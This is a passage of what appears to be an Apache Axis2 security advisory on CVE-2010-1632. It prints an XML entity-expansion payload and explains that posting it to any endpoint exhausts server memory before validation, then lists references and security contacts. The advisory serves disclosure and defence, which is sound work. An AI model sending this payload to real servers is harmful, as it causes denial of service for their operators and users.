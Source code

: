 ~~~ markup
    <!ENTITY x17 "&x18;&x18;">
    <!ENTITY x16 "&x17;&x17;">
    <!ENTITY x15 "&x16;&x16;">
    <!ENTITY x14 "&x15;&x15;">
    <!ENTITY x13 "&x14;&x14;">
    <!ENTITY x12 "&x13;&x13;">
    <!ENTITY x11 "&x12;&x12;">
    <!ENTITY x10 "&x11;&x11;">
    <!ENTITY  x9 "&x10;&x10;">
    <!ENTITY  x8 "&x9;&x9;">
    <!ENTITY  x7 "&x8;&x8;">
    <!ENTITY  x6 "&x7;&x7;">
    <!ENTITY  x5 "&x6;&x6;">
    <!ENTITY  x4 "&x5;&x5;">
    <!ENTITY  x3 "&x4;&x4;">
    <!ENTITY  x2 "&x3;&x3;">
    <!ENTITY  x1 "&x2;&x2;">
]>
<root attr="&x1;"/>
~~~

When sent with content type `application/xml` to any
valid endpoint, this request will cause an out of memory condition
on the server. This works even if REST is disabled. The reason is that
before checking if the request is acceptable, Axis2 needs to parse
the start tag of the document element. The expansion of the entity
used in the attribute on this element will then cause an out of memory error.

## References

The issue that causes the vulnerability exposed in the present advisory was
initially described in JIRA report
[AXIS2-4450](https://issues.apache.org/jira/browse/AXIS2-4450).

The issue is tracked by third parties with the following references:

* [CVE-2010-1632](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1632)

* [Secunia Advisory SA40252](http://secunia.com/advisories/40252)

* [VUPEN/ADV-2010-1528](http://www.vupen.com/english/advisories/2010/1528)

* [Red Hat Bugzilla - Bug 607118](https://bugzilla.redhat.com/show_bug.cgi?id=607118)

## Contact

Please send all security relevant comments (e.g. about additional
vulnerabilities not identified by this advisory) to <security@apache.org>.
Questions and comments that are not security relevant may be sent to
the public <java-dev@axis.apache.org> mailing list.

---